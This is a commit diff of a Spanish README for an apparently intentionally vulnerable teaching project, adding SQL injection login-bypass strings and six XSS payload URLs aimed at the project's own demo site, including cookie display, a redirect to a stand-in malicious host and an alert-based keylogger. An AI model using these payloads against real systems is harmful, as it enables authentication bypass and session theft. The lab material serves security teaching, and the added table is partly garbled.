

Before and after one commit to darkroot192-sudo/auth-security-project, a Markdown page: README.md, the part around one of its changes. Shown at 85% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Enhance README with SQL Injection and XSS details
Updated README to include detailed SQL Injection and XSS payloads with impact assessments.

````diff
--- a/README.md
+++ b/README.md
@@ -51,16 +49,74 @@ Permite ejecutar código SQL arbitrario manipulando los parámetros de entrada,
 
 ### Paso 2: Probar Payload 1 (Más Efectivo)
+|No.| usuario | contraseña|
+|---------|-----|-----------|
+|1.| admin | x' OR '1'='1 |
+|--------|------|--------|
+|2.|  admin' OR 'a'='a   | x' OR 'a'='a|
+|3.  ' OR 1=1 --  | x  | Buenos Aires | ```
+⚠️ **Importante:** Debe haber un espacio después de `--`
+|--------|------|--------|
 
-**Campo Usuario:**
-```
-admin
+**Click en "Entrar"**
+## Impacto de SQL Injection
+
+✅ **Confirmado en este proyecto:**
+- Bypass completo de autenticación
+- Acceso a cuentas sin conocer contraseñas
+- Exposición de errores SQL al usuario
+
+⚠️ **Posible en aplicaciones reales:**
+- Extracción de toda la base de datos
+- Modificación de datos
+- Eliminación de tablas
+- Ejecución de comandos del sistema (en casos extremos)
 ```
 
-**Campo Contraseña:**
+# ⚡ VULNERABILIDAD #2: CROSS-SITE SCRIPTING (XSS)
+## Descripción
+Permite inyectar código JavaScript malicioso que se ejecuta en el navegador de la víctima, pudiendo robar cookies, sesiones o redirigir a sitios maliciosos.
+
+**Severidad:** 🟠 ALTA (CVSS 7.5)
+**CWE:** CWE-79
+### Comando 1: Verificar aplicación vulnerable está corriendo
+### Paso 1: Hacer login en versión vulnerable
 ```
-x' OR '1'='1
+Usuario: admin
+Contraseña: admin123
+
+```
+**Copia y pega esta URL completa en el navegador:**
+https://auth-security-project.onrender.com/dashboard?message=<script>alert('XSS')</script>
+---
+✅ Aparece un **popup de alerta** con el mensaje "XSS Vulnerabilidad!"
+✅ Esto confirma que JavaScript arbitrario se está ejecutando
+
+---
+
+### Paso 2: Una vez en el dashboard, usar Payload XSS
+
+### Payload 2: Robo de cookies (simulado)
+```
+https://auth-security-project.onrender.com/dashboard?message=<script>alert('Cookie: ' + document.cookie)</script>
 ```
 
-**Click en "Entrar"**
+### Payload 3: Usando eventos
+```
+https://auth-security-project.onrender.com/dashboard?message=<img src=x onerror="alert('XSS')">
+```
 
-### Comando 1: Verificar aplicación vulnerable está corriendo
+### Payload 4: Redirección maliciosa
+```
+https://auth-security-project.onrender.com/dashboard?message=<script>window.location='http://malicioso.com'</script>
+```
+
+### Payload 5: Manipulación del DOM
+```
+https://auth-security-project.onrender.com/dashboard?message=<script>document.body.innerHTML='<h1>HACKED</h1>'</script>
+```
+
+### Payload 6: Keylogger básico
+```
+https://auth-security-project.onrender.com/dashboard?message=<script>document.onkeypress=function(e){alert('Tecla: '+e.key)}</script>
+```
+
````
Also changed, not shown: other parts of README.md (+17 -2 lines).
